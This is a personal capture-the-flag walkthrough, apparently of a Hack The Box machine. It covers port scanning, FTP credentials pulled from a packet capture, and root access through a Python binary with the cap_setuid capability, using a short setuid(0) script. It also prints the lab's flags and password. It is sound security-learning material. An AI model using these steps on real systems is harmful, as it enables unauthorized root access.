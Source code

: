 ```yaml
---
created: 2024-09-24T21:48
updated: 2024-09-24T23:02
description: My first proper linux privilege escalation!
---
```


## nmap

```bash
nmap -sV -p- --min-rate=1000 10.129.184.198

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    gunicorn

nmap -p 21,22,80 -sCV -oA scans/nmap-tcpscripts 10.129.184.198
```

- Trying to login to `ftp` with `anonymous` didn't work.
- Website seems to capture packets.
- Wait, `http://10.129.184.198/data/0` exists before my first capture.

## 0.pcap

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1727229565/2024/09/67c95341c80115c1e5708bc4edff1fd7.png)

```
USER nathan
PASS Buck3tH4TF0RM3!
```

The capture for some reason has username and password of a user.
## ftp as nathan + flag 1

```bash
ftp 10.129.184.198
ftp> ls
-r--------    1 1001     1001           33 Sep 25 01:45 user.txt
ftp> get user.txt
ftp> exit

cat user.txt
543bd52d3b323a211f9dc96b137464e2
```

## ssh as nathan

We can also ssh to the server as nathan.

```bash
ssh nathan@10.129.184.198
```

But I have no clue about the privilege escalation part.

### capabilities

```bash
nathan@cap:/$ getcap /usr/bin/python3.8
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

### PEASS-ng

Auto escalation detection script.

I downloaded `linpeas.sh` from [peass-ng/PEASS-ng: PEASS - Privilege Escalation Awesome Scripts SUITE (with colors) (github.com)](https://github.com/peass-ng/PEASS-ng), and ran it as nathan.

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1727232503/2024/09/8e5b53940ebcf69c8b3dce74d09acaf5.png)

It is highlighted? Why?

## Privilege escalation with `setuid`

Turns out `cap_setuid` can be used to change the user id of the current process, setting it to 0 would essentially make us root.

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1727232692/2024/09/c30739e99b7a6c957d59aae286792888.png)

Wow, we have root access now!

```python [escalation.py]
import os
os.setuid(0)
os.system("bash")
```

## flag 2

```bash
root@cap:~# cd /root
root@cap:/root# ls
root.txt  snap
root@cap:/root# cat root.txt 
a2b5a6b4f9a1b513a273660ebef38b70
```

OwO
